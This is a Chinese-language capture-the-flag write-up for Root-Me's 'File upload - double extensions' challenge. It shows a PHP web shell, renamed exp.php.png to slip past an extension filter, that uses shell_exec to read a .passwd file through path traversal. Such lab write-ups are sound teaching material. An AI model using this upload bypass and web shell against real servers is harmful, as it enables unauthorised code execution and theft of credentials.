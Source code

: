 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[File upload - double extensions](https://www.root-me.org/en/Challenges/Web-Server/File-upload-double-extensions)] [[解题报告](http://exp-blog.com/2019/01/13/pid-2985/)]

------

题目给出了两个提示：

- 双重后缀绕过（double extensions）
- 目标文件 .passwd 在 web 服务的根路径

上传一个图片测试一下，页面会给出图片的 URL 地址，点开后可以打开原图，猜测这或许是一个可利用点。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B14%5D%20%5B20P%5D%20File%20upload%20-%20double%20extensions/imgs/01.png)

又从给出的 URL 地址知道，上传的文件距离 web 服务根目录的位置，因此可以构造一个路径穿越的 payloads 文件，文件名为 `exp.php`：

```php
<?php
	// exp.php.png
	// 假如这个文件上传成功，则可以利用 web 打开这个文件进行解析时进行路径穿越
	$content = shell_exec('cat ../../../.passwd');
	echo "<pre>$content</pre>";
?>
```

但因为上传会检测文件后缀，无法直接上传。把文件更名为 `exp.php.png` 尝试绕过检测机制，上传成功。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B14%5D%20%5B20P%5D%20File%20upload%20-%20double%20extensions/imgs/02.png)

上传成功后，打开这个伪造的图片文件，发现它被作为 php 文件解析了（应该是 web 设置的问题），成功获得密码，完成挑战。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B14%5D%20%5B20P%5D%20File%20upload%20-%20double%20extensions/imgs/03.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------

